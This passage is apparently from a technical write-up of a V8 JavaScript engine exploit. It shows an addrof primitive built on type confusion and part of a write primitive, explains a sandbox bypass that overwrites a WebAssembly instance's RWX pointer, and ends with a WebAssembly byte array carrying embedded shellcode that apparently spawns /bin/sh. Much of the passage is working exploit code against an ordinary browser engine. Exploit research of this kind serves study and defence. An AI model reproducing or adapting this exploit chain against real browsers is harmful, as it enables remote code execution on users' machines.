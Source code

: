 ```jsx
        u32[1] = 0xc;
        changer[0] = f64[0];

        f64[0] = leaker[0];
        u32[0] = Number(value);
        leaker[0] = f64[0];
        changer[0] = original_leaker_bytes;
}
```


#### Final Addrof Primitive

This primitive is used to obtain the address of an object, just like the previous addrof primitive. 

The earlier primitive achieved this by causing type confusion between the x and a arrays. 

However, since we have now initialized these arrays and are no longer using them (to avoid detection by the garbage collector), we use the newly created Changer, Leaker, and Holder objects to implement the addrof primitive.

```jsx
function addrof(obj) {
        holder.p2 = obj;
        let ret = leaker[1];
        holder.p2 = 0;
        return f2i(ret) & 0xffffffffn;
}
```


### Exploit

With all the primitives implemented, we can now use them to bypass V8's sandbox mitigation (ubercage). 

To bypass the sandbox, we will use WebAssembly. 

The reason for using WebAssembly is that to execute shellcode, we need to move the pointer to an area with execution permissions. Such areas exist in optimized code sections but also in the RWX (read-write-execute) region created when a WebAssembly instance is generated. By overwriting the pointer that points to the RWX region within this WasmInstance, we can redirect the execution flow to the location of our shellcode.

Note: This exploit method was used before updates were made to the sandbox. Currently, WasmInstances no longer store pointers to RWX regions, so a new exploit method must be devised. Additionally, the offsets of the various addresses vary depending on the version of V8, so those must be determined through analysis.

To carry out the exploit, two WasmInstances are created. One will store the shellcode, while the other will have its RWX pointer overwritten to point to the shellcode's location. Once this is done, executing a function from the latter instance will redirect execution to the manipulated RWX pointer, causing the shellcode to run.

```jsx
let shell_wasm_code = new Uint8Array([
    0, 97, 115, 109, 1, 0, 0, 0, 1, 5, 1, 96, 0, 1, 127, 3, 2, 1, 0, 4, 4, 1, 112, 0, 0, 5, 3, 1, 0, 1, 7, 17, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 133, 1, 1, 130, 1, 0, 65, 0, 68, 0, 0, 0, 0, 0, 0, 0, 0, 57, 3, 0, 65, 0, 68, 106, 59, 88, 144, 144, 144, 235, 11, 57, 3, 0, 65, 0, 68, 104, 47, 115, 104, 0, 91, 235, 11, 57, 3, 0, 65, 0, 68, 104, 47, 98, 105, 110, 89, 235, 11, 57, 3, 0, 65, 0, 68, 72, 193, 227, 32, 144, 144, 235, 11, 57, 3, 0, 65, 0, 68, 72, 1, 203, 83, 144, 144, 235, 11, 57, 3, 0, 65, 0, 68, 72, 137, 231, 144, 144, 144, 235, 11, 57, 3, 0, 65, 0, 68, 72, 49, 246, 72, 49, 210, 235, 11, 57, 3, 0, 65, 0, 68, 15, 5, 144, 144, 144, 144, 235, 11, 57, 3, 0, 65, 42, 11
  ]);

let shell_wasm_module = new WebAssembly.Module(shell_wasm_code);
let shell_wasm_instance = new WebAssembly.Instance(shell_wasm_module);
let shell_func = shell_wasm_instance.exports.main;
```